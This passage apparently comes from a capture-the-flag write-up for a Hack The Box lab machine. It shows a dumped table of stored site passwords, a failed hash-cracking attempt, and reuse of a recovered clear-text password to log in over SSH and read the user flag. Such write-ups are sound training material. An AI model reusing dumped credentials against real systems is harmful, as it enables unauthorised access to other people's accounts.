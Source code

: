 ```sql
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | REDACTED |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
```

I tried to crack the hashes in the users table with hashcat, but that failed. The passwords table contained the passwords in clear text. I tried them to SSH as corum, the last one worked.

```bash
$ ssh corum@target
The authenticity of host 'target (10.10.11.203)' can't be established.
ED25519 key fingerprint is SHA256:kxY+4fRgoCr8yE48B5Lb02EqxyyUN9uk6i/ZIH4H1pc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
corum@target's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

Last login: Wed Mar  8 15:25:35 2023 from 10.10.14.47

corum@agile:~$ ls
user.txt

corum@agile:~$ cat user.txt
REDACTED
```

## User edwards
